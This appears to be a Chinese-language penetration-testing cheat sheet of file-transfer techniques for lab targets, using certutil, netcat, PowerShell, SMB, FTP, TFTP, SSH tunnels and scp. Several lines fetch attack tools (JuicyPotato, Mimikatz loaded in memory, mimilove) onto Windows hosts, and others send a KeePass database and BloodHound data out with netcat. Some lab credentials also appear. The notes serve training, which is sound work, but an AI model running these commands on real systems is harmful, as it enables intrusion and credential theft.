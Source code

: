 # certuti
```
certutil -urlcache -split -f "http://192.168.49.102/JuicyPotato.exe" JuicyPotato.exe
```


# nc

接收文件
```
nc -lvp 139 > 20220518030433_BloodHound.zip
```

传送文件
```
nc.exe 192.168.119.149 139 < 20220518030433_BloodHound.zip


cmd.exe /C nc.exe 10.10.16.4 443<CEH.kdbx   #如果是ps的shell
```


# powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/nc.exe','C:\temp\nc.exe')"

iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)  #加载进内存
```

# smb

## 使用smbclient
```
smbclient -c 'put <文件名>' -U <用户名> -W <域前缀> '//<主机名>/<文件夹>/' <用户密码>

smbclient -c 'put max.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

## kali创建smb分享文件夹
在linux创建一个临时smb分享目录,文件夹：share，用户名：max，密码：s3cureP@ssword 
```
/usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username max -password s3cureP@ssword 
```

在windows连接这个这个smb服务

```
net use \\10.50.102.104\share  /USER:max s3cureP@ssword
```

如：
```
PS C:\xampp\htdocs\resources\uploads> net use \\10.50.102.104\share  /USER:max s3cureP@ssword
net use \\10.50.102.104\share  /USER:max s3cureP@ssword
The command completed successfully.
```

从kali上拷贝文件到windows
```
PS C:\xampp\htdocs\resources\uploads> copy \\10.50.102.104\share\nc.exe .
copy \\10.50.102.104\share\nc.exe .

```



# ftp

思路，在kali上安装一个ftp服务，方便靶机（多数时候是windows）回连传送文件

1. kali安装ftp
```
sudo apt update && sudo apt install pure-ftpd
```

2. 编写自动化创建用户脚本

下面会创建一个叫offsec的ftp用户，密码运行脚本时会要求输入
```
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

3. 执行
```
chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
```

4. 连接
用户是offsec
密码：上面的自定义密码
```
ftp [kali的IP]
```

# tftp
适用于比较旧的windwos操作系统(比如Windows XP 和 2003)传送文件，默认情况下tftp不安装在运行 Windows 7、Windows2008 年及更新版本

> TFTP是一种基于 UDP 的文件传输协议，通常受公司出口防火墙规则的限制。


1. kali安装tftp
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

2. windows上使用tftp
以下模拟widows向kali传送一个important.docx文件
```
tftp -i 10.11.0.4 put important.docx
```


tftp -i 192.168.119.156 get mimilove.exe

tftp -i 192.168.119.156 get test.txt


# ssh建立一个实时的共享文件夹

1. kali执行,这里输入vps的ssh密码
```
ssh -D <pxy转发端口> -R 10000:127.0.0.1:22 <vps user>@<vps IP>
```

例子：
```
ssh -D 9051 -R 10000:127.0.0.1:22 root@207.246.124.194
```

2. vps上执行，这里输入kali 的ssh密码
```
sshfs -p 10000 localuser@127.0.0.1:<local-path> <vps-path>
```

例子，把vps的```/tmp```目录映射到kali的```/root/tmp```
```
sshfs -p 10000 root@127.0.0.1:/root/tmp /tmp
```


# scp

1. 从本地上传文件到远程计算机或服务器的命令如下：
先进入本地目录下，然后运行如下命令：
```
scp my_local_file.zip root@192.168.1.104:/usr/local/nginx/html/webs
```

2. 从远程主机复制文件到本地主机(下载)的命令如下：（假如远程文件是about.zip）
先进入本地目录下，然后运行如下命令：
```
scp root@192.168.1.104:/usr/local/nginx/html/webs/about.zip .
```